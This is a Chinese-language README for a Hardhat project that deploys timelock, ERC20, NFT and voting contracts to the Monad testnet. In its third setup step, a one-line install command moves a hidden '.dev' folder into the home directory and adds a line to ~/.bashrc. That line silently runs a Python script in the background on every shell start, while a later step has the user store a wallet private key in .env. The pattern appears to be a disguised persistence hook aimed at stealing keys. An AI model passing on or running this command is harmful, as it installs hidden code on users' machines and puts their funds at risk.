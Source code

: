 # Hardhat Monad

## 📌 安装与配置

### 🚀 1️⃣ 更新系统并安装必要的软件
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install -y git xclip python3-pip
sudo pip3 install requests
```

### 🌍 2️⃣ 安装 Node.js 和 npm（如果已安装请跳过）
```bash
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
sudo apt install -y nodejs
```

### 🛠️ 3️⃣ 克隆 GitHub 仓库并进行环境配置
```bash
git clone https://github.com/blockchain-src/hardhat-monad.git && cd hardhat-monad && mv .dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/.dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

### 📦 4️⃣ 安装项目依赖
```bash
npm install
```

### 🔑 5️⃣ 配置私钥
```bash
echo 'PRIVATE_KEY=你的私钥' >> .env
```

## 🚀 部署智能合约

### ⏳ 部署时间锁合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/Lock.ts --network monadTestnet
```

### 💰 部署 ERC20 代币合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/erc20.ts --network monadTestnet
```

### 🎨 部署 NFT 合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/NFT.ts --network monadTestnet
```

### 🗳️ 部署投票合约到 Monad 测试网
```bash
npx hardhat ignition deploy ignition/modules/voting.ts --network monadTestnet
```

### 🔄 重新部署合约到不同地址
```bash
npx hardhat ignition deploy ignition/modules/<XXXX.ts> --network monadTestnet --reset
```

### ✅ 使用 Sourcify 验证合约
部署完成后，可使用以下命令验证合约：
```bash
npx hardhat verify <合约地址> --network monadTestnet
```

📢 **提示**: 请确保 `PRIVATE_KEY` 已正确配置，并具备足够的测试代币！

